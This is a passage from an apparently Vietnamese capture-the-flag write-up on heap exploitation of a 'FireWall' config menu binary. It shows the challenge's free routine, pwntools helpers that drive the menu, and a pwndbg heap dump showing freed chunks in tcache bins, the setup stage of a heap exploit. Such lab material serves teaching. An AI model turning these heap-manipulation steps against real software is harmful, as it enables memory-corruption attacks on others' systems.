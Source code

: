 ```c 
        if ( count )
        {
          free(ptr[count - 1]->setting);
          free(ptr[count - 1]);
          puts("Last config removed.");
          --count;
        }
```

Bây giờ mình thử tạo 2 FireWall rồi free cái cuối cùng để xem trên heap sẽ có gì

```python 
def add(id_: int,size: int,setting: bytes, active: bool = True):
	p.sendlineafter(b"> ",b"1")
	p.sendlineafter(b"What is the id of the config?: ",f"{id_}".encode())
	p.sendlineafter(b"What is the size of the setting?: ",f"{size}".encode())
	p.sendlineafter(b"What is the setting to be added?: ",setting)
	p.recvuntil(b"Should this setting be active? [y/n]: ")
	p.sendline(b"y") if active else p.sendline(b"n")
def edit(idx: int,id_: int,size: int,setting: bytes, active: bool = True):
	p.sendlineafter(b"> ",b"2")
	p.sendlineafter(b"What is the index of the config to edit?:",f"{idx}".encode())
	p.sendlineafter(b"What is the new ID?: ",f"{id_}".encode())
	p.sendlineafter(b"What is the new size of the setting?: ",f"{size}".encode())
	if size:
		p.sendlineafter(b"What is the new setting?: ",setting)
	p.recvuntil(b"Should this be active? [y/n]: ")
	p.sendline(b"y") if active else p.sendline(b"n")
def view(idx: int):
	p.sendlineafter(b"> ",b"3")
	p.sendlineafter(b'What is the index of the config to print?: ',f"{idx}".encode())
add(0,0x250-8,b"A"*8)
add(1,0x250-8,b"B"*8)
p.sendline(b"4")
```

```c 
pwndbg> vis 

0x2082000	0x0000000000000000	0x0000000000000251	........Q.......
0x2082010	0x0000000000000001	0x0000000000000000	................
0x2082020	0x0000000000000000	0x0000000000000000	................
.........
0x2082220	0x0000000000000000	0x0000000000000000	................
0x2082230	0x0000000000000000	0x0000000000000000	................
0x2082240	0x0000000000000000	0x0000000000000000	................
0x2082250	0x0000000000000000	0x0000000000000021	........!.......
0x2082260	0x0000000000000000	0x0000000002082280	........."......
0x2082270	0x0000000000000001	0x0000000000000251	........Q.......
0x2082280	0x4141414141414141	0x0000000000000000	AAAAAAAA........
0x2082290	0x0000000000000000	0x0000000000000000	................
.........
0x2082490	0x0000000000000000	0x0000000000000000	................
0x20824a0	0x0000000000000000	0x0000000000000000	................
0x20824b0	0x0000000000000000	0x0000000000000000	................
0x20824c0	0x0000000000000000	0x0000000000000021	........!.......
0x20824d0	0x0000000000000000	0x0000000002082010	......... ......	 <-- tcachebins[0x20][0/1]
0x20824e0	0x0000000000000001	0x0000000000000251	........Q.......
0x20824f0	0x0000000000000000	0x0000000002082010	......... ......	 <-- tcachebins[0x250][0/1]
0x2082500	0x0000000000000000	0x0000000000000000	................
.........
0x2082700	0x0000000000000000	0x0000000000000000	................
0x2082710	0x0000000000000000	0x0000000000000000	................
0x2082720	0x0000000000000000	0x0000000000000000	................
0x2082730	0x0000000000000000	0x00000000000208d1	................	 <-- Top chunk
```